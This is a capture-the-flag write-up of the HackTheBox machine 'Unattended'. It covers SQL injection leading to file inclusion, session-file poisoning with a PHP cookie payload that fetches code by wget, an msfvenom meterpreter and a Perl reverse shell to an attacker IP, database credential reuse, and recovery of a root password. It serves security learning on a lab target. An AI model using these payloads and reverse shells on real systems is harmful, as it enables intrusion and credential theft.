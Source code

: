```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-04-28-unattended-hackthebox
tags:
- hackthebox
- linux
- log poisoning
- sql injection
- web
title: Unattended @ HackTheBox
---
```


Unattended is a high difficulty machine on hackthebox, featuring manual sql injection, log poisoning and some guessing.

## User Flag

Starting with a tcp port scan we get the following result:

```
80/tcp  open  http
443/tcp open  https
```

We look at https://unattended.htb which just gives back an empty page (containing only a single dot). The same behavior happens when going to the http variant. By looking at the certificate of the page in firefox we can obtain another url: "www.nestedflanders.htb". After adding the url to our hosts file we visit the page and get a default apache2 website. We try some default urls and finally get the "real" website by going to "https://www.nestedflanders.htb/index.php":

![](htb_unattended_site.png)

The sites navigation is being realized through the id parameter – we run some word lists on it to check for LFI and injection vulnerabilities. In addition we start sqlmap against the host. Sqlmap eventually succeeds in finding an injection vector:

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=587' AND 3136=3136 AND 'csjV'='csjV
```

With the discovered injection we can potentially dump the database, the process is however very slow. We focus on dumping tables that sound interesting to speed things up. To do so we start by listing the tables (with the `--tables` option):

```
Database: neddy
[11 tables]
+---------------------------------------+
| config                                |
| customers                             |
| employees                             |
| filepath                              |
| idname                                |
| offices                               |
| orderdetails                          |
| orders                                |
| payments                              |
| productlines                          |
| products                              |
+---------------------------------------+
```

Next we dump the filepath table:

```
Database: neddy
Table: filepath
[3 entries]
+---------+--------------------------------------+
| name    | path                                 |
+---------+--------------------------------------+
| about   | 47c1ba4f7b1edf28ea0e2bb250717093.php |
| contact | 0f710bba8d16303a415266af8bb52fcb.php |
| main    | 787c75233b93aa5e45c3f85d130bfbe7.php |
+---------+--------------------------------------+
```

This shows us that the actual files, that we include by changing the id parameter, have md5 hashes as names on the filesystem. We verify this by calling the files in a web browser and confirm that they exist. In the table "idname" we find more information:

```
Database: neddy
Table: idname
[6 entries]
+-----+-------------+----------+
| id  | name        | disabled |
+-----+-------------+----------+
| 1   | main.php    | 1        |
| 2   | about.php   | 1        |
| 3   | contact.php | 1        |
| 25  | main        | 0        |
| 465 | about       | 0        |
| 587 | contact     | 0        |
+-----+-------------+----------+
```

This shows how the mapping id to filename works. We query the idname table by id and use the resulting name to find the file in the filepath table. After experimenting for a while with possible injections, we find the following one, giving us LFI:

```
https://www.nestedflanders.htb/index.php?id=25%27+UNION+SELECT+%22contact%27+UNION+SELECT+%27/etc/passwd%27+LIMIT+1,1;--%20%22;--%20
```

There are multiple ways to turn this into a shell. The classical way is to poison log files like access.log or error.log – that is however a bit annoying because multiple people are working on the box and one error will make the log unusable. We decide to go with session file poisoning instead:

```
https://www.nestedflanders.htb/index.php?id=25'+UNION+SELECT+"contact'+UNION+SELECT+'/var/lib/php/sessions/sess_48ge9cgn7iqdn5fh37r0573072'+LIMIT+1,1;--%20";--%20
```

As we can now call our session file we just have to add php code we want to execute into our cookie. We generate a meterpreter php shell with `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.16.66 LPORT=80 > 0db9774b86aa5a219a0939cdd5c5aa08.php` and get it onto the box by crafting the cookie:

```
Cookie: PHPSESSID=48ge9cgn7iqdn5fh37r0573072; Fun=<?php passthru('cd /tmp && rm * && wget http://10.10.16.66/0db9774b86aa5a219a0939cdd5c5aa08.php && ls -l')?>;
```

After starting a webserver we call the sessions file again, triggering the upload of our shell. The final step remaining is to use the LFI to call our php file, resulting in a shell:

```
[*] Started reverse TCP handler on 10.10.16.66:80
[*] Sending stage (38247 bytes) to 10.10.10.126
[*] Meterpreter session 1 opened (10.10.16.66:80 -> 10.10.10.126:41258) at 2019-04-28 16:15:16 +0200
meterpreter > sysinfo
Computer    : unattended
OS          : Linux unattended 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64
Meterpreter : php/linux
```

Now that we have a shell as www-data we further enumerate the box. In index.php we find the actual query that resulted in the shell, and database credentials:

```
$sql = "SELECT i.id,i.name from idname as i inner join filepath on i.name = filepath.name where disabled = '0' order by i.id";
...
$servername = "localhost";
$username = "nestedflanders";
$password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
```

It’s now possible is to effectively dump the database using the mysql commandline:

```
echo "use neddy; select * from config;" | mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e
...
86    checkrelease    /home/guly/checkbase.pl;/home/guly/checkplugins.pl;
...
```

Inside the config table we notice an interesting field called "checkrelease", which seems to have two shell scripts that are executed. Maybe we can alter these scripts ? We miss permissions to to access the referenced scripts, but we can change the database entry, leading to execution of our own script! We create a small perl script that gives us a shell (it does not have to be perl):

```python
#!/usr/bin/env perl
use Socket;
$i="10.10.16.66";
$p=80;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
    open(STDIN,">&S");
    open(STDOUT,">&S");
    open(STDERR,">&S");
    exec("/bin/sh -i");
};
```

Unfortunately /tmp is not executable for us, which we can see by typing mount:

```
tmpfs on /tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
```

We find an executable location where our session file was in "/var/lib/php/sessions/", so we copy the shell there, make it executable and update the db entry:

```
wget http://10.10.16.66/xct.pl
chmod +x xct.pl
echo "use neddy; UPDATE config SET option_value = '/var/lib/php/sessions/xct.pl' where option_name = 'checkrelease';" | mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e
```

We get a shell in the context of guly back and can read the user flag:

```
listening on [any] 80 ...
connect to [10.10.16.66] from unattended.unattended.htb [10.10.10.126] 41264
/bin/sh: 0: can't access tty; job control turned off
$ whoami
guly
$ wc -c /home/guly/user.txt
33 /home/guly/user.txt
```

## Root Flag

When looking for the solution to root we first check which permissions guly has, that www-data didn’t have:

```
uid=1000(guly) gid=1000(guly) groups=1000(guly),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),47(grub),108(netdev)
```

The grub group is of special interest here, because that is unusual and the boot loader has some power in the system. Inside "/boot" we find "initrd.img-4.9.0-8-amd64", which we copy to our home folder and extract with `zcat initrd.img-4.9.0-8-amd64 | cpio -idmv`. By grepping for "guly" over the extracted files we notice this:

```
./scripts/local-top/cryptroot:      # guly: we have to deal with lukfs password sync when root changes her one
```

Inside the file where the comment is in, we see this line:

```
...
/sbin/uinitrd c0m3s3f0ss34nt4n1 | $cryptopen ; then
...
```

This seems to generate the root password (to pipe it into cryptopen). We can not execute "/sbin/uinitrd" ourselves though. Luckily the extracted image contains the binary too which we execute and get the root password:

```
$ ./sbin/uinitrd c0m3s3f0ss34nt4n1
132f93ab100671dcb263acaf5dc95d8260e8b7c6
```

We can not just su to root because we are not in a proper terminal. By running `ss -ltn` we notice that ssh is open on ipv6. We add our key to authorized keys of guly and log in as guly over ssh (root remote login fails). Now it is possible to su to root and read the flag.